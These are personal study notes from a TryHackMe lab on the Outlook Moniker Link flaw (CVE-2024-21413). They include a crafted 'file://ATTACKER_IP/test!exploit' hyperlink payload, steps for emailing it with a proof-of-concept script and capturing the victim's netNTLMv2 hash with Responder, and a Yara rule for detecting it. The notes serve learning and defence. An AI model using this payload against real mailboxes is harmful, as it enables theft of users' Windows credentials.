

# Cybersecurity 101 
---
# Moniker Link (CVE-2024-21413)

On February 13th, 2024, Microsoft announced a Microsoft Outlook RCE & credential leak vulnerability with the assigned CVE of [CVE-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413) (Moniker Link). Haifei Li of Check Point Research is credited with [discovering the vulnerability](https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/)

The vulnerability bypasses Outlook's security mechanisms when handing a specific type of hyperlink known as a Moniker Link. An attacker can abuse this by sending an email that contains a malicious Moniker Link to a victim, resulting in Outlook sending the user's NTLM credentials to the attacker once the hyperlink is clicked.

Details relating to the scoring of the vulnerability have been provided in the table below:

| CVSS              | Description                                                 |
|-------------------|-------------------------------------------------------------|
| Publish date      | February 13th, 2024                                         |
| Impact            | Remote Code Execution & Credential Leak                     |
| Severity          | Critical                                                    |
| Attack Complexity | Low                                                         |
| Scoring           | 9.8                                                         |

The vulnerability is known to affect the following Office releases:
| Release                        | Version                                      |
|--------------------------------|----------------------------------------------|
| Microsoft Office LTSC 2021     | affected from 19.0.0                         |
| Microsoft 365 Apps for Enterprise | affected from 16.0.1                    |
| Microsoft Office 2019          | affected from 16.0.1                         |
| Microsoft Office 2016          | affected from 16.0.0 before 16.0.5435.1001   |


### Moniker Link (CVE-2024-21413)

Outlook can render emails as HTML. You may notice this being used by your favourite newsletters. Additionally, Outlook can parse hyperlinks such as HTTP and HTTPS. However, it can also open URLs specifying applications known as [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers)  Normally, Outlook will prompt a security warning when external applications are triggered.


 <br>

This pop-up is a result of Outlook's "Protected View". Protected View opens emails containing attachments, hyperlinks and similar content in read-only mode, blocking things such as macros (especially from outside an organisation). 

By using the `file://` Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (`<a href="file://ATTACKER_IP/test">Click me</a>`). The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

The vulnerability here exists by modifying our hyperlink to include the `!` special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. For example: `<a href="file://ATTACKER_IP/test!exploit">Click me</a>`.

We, as attackers, can provide a Moniker Link of this nature for the attack. Note the share does not need to exist on the remote device, as an authentication attempt will be attempted regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker.

Remote Code Execution (RCE) is possible because Moniker Links uses the Component Object Model (COM) on Windows. However, explaining this is currently out of scope for this room, as there is no publicly released proof of concept for achieving RCE via this specific CVE.

## Exploitation

For this attack, we will email our victim a Moniker Link similar to the one provided in the previous task. The objective, as the attacker, is to craft an email to the victim with a Moniker Link that bypasses Outlook's "Protected View", where the victim’s client will attempt to load a file from our attacking machine, resulting in the victim’s netNTLMv2 hash being captured.

But first, let’s run through a PoC I have created (which is also available on [GitHub](https://github.com/CMNatic/CVE-2024-21413))

The PoC:
- Takes an attacker & victim email. Normally, you would need to use your own SMTP server (this has already been provided for you in this room)
- Requires the password to authenticate. For this room, the password for **attacker@monikerlink.thm** is **attacker**
- Contains the email content (html_content), which contains our Moniker Link as a HTML hyperlink
- Then, fill in the "subject", "from" and "to" fields in the email
- Finally, it sends the email to the mail server

Let’s use Responder to create an SMB listener on our attacking machine. For the THM AttackBox, the interface will be `-I ens5`. The interface name will differ if you are using your own device (i.e. Kali). If you would like some homework, an Impacket server can also be used.

 <br>

Let's open the vulnerable machine by pressing the "CVE-2024-21413" pane in the split-screen view.  

 <br>

Open Outlook by clicking the "Outlook" shortcut on the desktop. When Outlook has opened, click "I don't want to sign in or create an account" on the popup.

 <br>

Dismiss the second popup by clicking on the "X" at the top right of the popup (you may need to drag the window to the left a little, depending on your screen resolution).

 <br>

When completed, you will see the Outlook interface. For this room, the victim's mailbox has already been set up in Outlook for you.

 <br>

Return to your AttackBox. We will copy and paste the PoC above onto the AttackBox.

 <br>

For this, we will create a new file on the AttackBox. `nano exploit.py` and use the slide-out tray in the split-screen view. Refer to the GIF below to see this in action.

 <br>

We will need to do some initial setup on Our AttackBox before running the Python script:
- Modify the Moniker Link (line #12) in our PoC to reflect the IP address of our AttackBox
- Replace the MAILSERVER placeholder on line #31 with MACHINE_IP

When done, we can run the exploit. When prompted for the attacker's email password, enter "attacker".

 <br>

The Python script will print "Email delivered" when the email has been sent. If the script complains about authentication failure, ensure you have correctly replaced the values in exploit.py. Now, let's return to the vulnerable machine and check for the new email:

 <br>

Click on the "Click me" hyperlink and return to our "Responder" terminal session on the AttackBox:

 <br>

Success! The victim's netNTLMv2 hash has been captured on our AttackBox.

---

## Detection


A [Yara rule](https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar) has been created by [Florian Roth](https://x.com/cyb3rops/status/1758792873254744344)  to detect emails containing the `file:\\` element in the Moniker Link.

```plaintext
user@yourmachine:# cat cve-2024-21413.yar 

rule EXPL_CVE_2024_21413_Microsoft_Outlook_RCE_Feb24 {

   meta:

      description = "Detects emails that contain signs of a method to exploit CVE-2024-21413 in Microsoft Outlook"

      author = "X__Junior, Florian Roth"

      reference = "https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/"

      date = "2024-02-17"

      modified = "2024-02-19"

      score = 75

   strings:

      $a1 = "Subject: "

      $a2 = "Received: "

      $xr1 = /file:\/\/\/\\\\[^"']{6,600}\.(docx|txt|pdf|xlsx|pptx|odt|etc|jpg|png|gif|bmp|tiff|svg|mp4|avi|mov|wmv|flv|mkv|mp3|wav|aac|flac|ogg|wma|exe|msi|bat|cmd|ps1|zip|rar|7z|targz|iso|dll|sys|ini|cfg|reg|html|css|java|py|c|cpp|db|sql|mdb|accdb|sqlite|eml|pst|ost|mbox|htm|php|asp|jsp|xml|ttf|otf|woff|woff2|rtf|chm|hta|js|lnk|vbe|vbs|wsf|xls|xlsm|xltm|xlt|doc|docm|dot|dotm)!/

   condition:

      filesize < 1000KB

      and all of ($a*)

      and 1 of ($xr*)

}
```
**Wireshark:** Additionally, the SMB request from the victim to the client can be seen in a packet capture with a truncated netNTLMv2 hash.

 <br>


---
> **Note:** These notes document hands-on learning from the TryHackMe *Cybersecurity 101* path. The exercises cover fundamental cybersecurity topics, including Linux basics, networking concepts, and web technologies. This document is intended for personal learning, revision, and ethical skill development. All screenshots, commands, and actions are for educational purposes only.  
> — Compiled by moh4med404 | Curious Mind | Cybersecurity Enthusiast